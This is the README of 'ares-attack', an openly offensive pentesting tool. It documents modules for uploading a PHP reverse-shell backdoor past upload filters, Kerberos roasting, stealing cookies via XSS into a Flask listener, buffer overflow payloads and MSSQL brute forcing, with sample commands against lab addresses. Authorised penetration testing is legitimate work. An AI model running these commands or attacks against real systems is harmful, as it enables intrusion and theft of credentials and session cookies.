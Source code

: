 # ares-attack
Ares helps Pentesters prepare for war by performing simple attacks against Web Apps and Windows targets (WAR files sold seperately).

## Table of Contents

- [Setup](#setup)
- [Functionality](#functionality)
- [Uploader](#uploader)
- [Roasting](#roasting)
- [XSS](#xss)
- [Mutator](#mutator)
- [Overflower](#overflower)
- [MSSQL Pwner](#mssql-pwner)
- [Related Projects](#related-projects)


## Setup
After installing the dependencies, navigate to this Repo's directory & run `setup.sh`. 

Depending on how they are installed, the name of Impacket's tools can vary (e.g. impacket-GetNPUsers vs GetNPUsers.py). This script ensures that tool names use the proper format.

`bash ./setup.sh`

### Dependencies
impacket-GetNPUsers

impacket-GetUserSPNs

impacket-mssqlclient

crunch

## Functionality
```
Ares will interactively prompt you for input unless you provide the necessary arguments for the selected module.
	
[Options]
	-h: Show this help message
	-m <MODULE>: Specify the module you want to use

[Modules]
	upload: Bypass file upload defenses to get a backdoor on a Web App. Currently, Uploader only supports PHP file types
	roast: ASREP Roasting & Kerberoasting
	xss: Setup for XSS cookie exfil
	mutate: Wordlist mutation
	bof: Buffer Overflow payload generator
	mssql: Bruteforce MSSQL in Active Directory environment
```

### Uploader
Bypass common File Upload defenses.

```
[Options]
	-h: Display this help message
	-i <IP_Addres>: The IP Address to use for the Reverse Shell payload (i.e. your interface)
	-p <PORT>: The port that your listener is running on
	-u <URL>: The target URL that's used in POST Requests to upload a file
	-n <NAME>: The 'name' attribute that's used in POST Requests (e.g. file for name="file")
	-e <URL>: Exploit mode. Attempts to automatically trigger a Reverse Shell. Enter the URL where uploaded files are saved to.
	-a <EXTENSION>: Allowed extension to use with Null Byte (defaults to jpg). Enter the extension without a period prepended.
	-b: Basic payload instead of a Reverse Shell. Provide commands as the value of the 0 parameter (e.g. /evil.php?0=id) . Incompatible with -e

[Supported File Types]
    Uploader only supports PHP files. More file types will be added in subsequent updates.

[Usage]
	ares -m upload -i 12.345.67.89 -p 1337 -u http://10.10.40.117/panel/ -n fileUpload -e http://10.10.40.117/uploads/ -a png
	ares -m upload -u http://10.10.40.117/panel/ -n fileUpload -b
```

### Roasting
Perform ASREP Roasting & Kerberoasting.

### XSS
Ensure that your account has the privileges needed to listen on the port you specified for the Flask server.

This module performs the following 3 actions:

1) Starts a Flask server that will recieve a target's Cookies & save them to a file.

2) Creates an example XSS payload which will send the target's Cookies to the Flask server.

3) Redirects the target to a specified URL (i.e. an inconspicuous page on the website).

### Mutator
Modify wordlist entries & optionally convert them to an alternate format (i.e., Base64 Encoded or as a hash).

Some Web Apps want credentials supplied in B64 or as a password hash, so this prepares a wordlist that can be used with your favorite bruteforcing tool (e.g., `hydra`, `patator`, or `ffuf`).

### Overflower
Generate a binary payload using the specified address & offset.

### MSSQL Pwner
Unlike `hydra`, `impacket-mssqlclient` supports the use of SSPI authentication for MSSQL servers.

This makes it more reliable in an Active Directory environment, but it doesn't come with any bruteforcing functionality.

Ares uses a simple wrapper program to add bruteforcing capabilities to `impacket-mssqlclient`.

## Related Projects
Check out the rest of the Pentesting Pantheon:

Perform recon to see everything your target is hiding with Argus (https://github.com/Komodo-pty/argus-recon/)

Hunt for shells with Artemis (https://github.com/Komodo-pty/artemis-hunter)

Perform Post-Exploitation enumeration against Windows hosts with Hades (https://github.com/Komodo-pty/hades-PrivEsc)
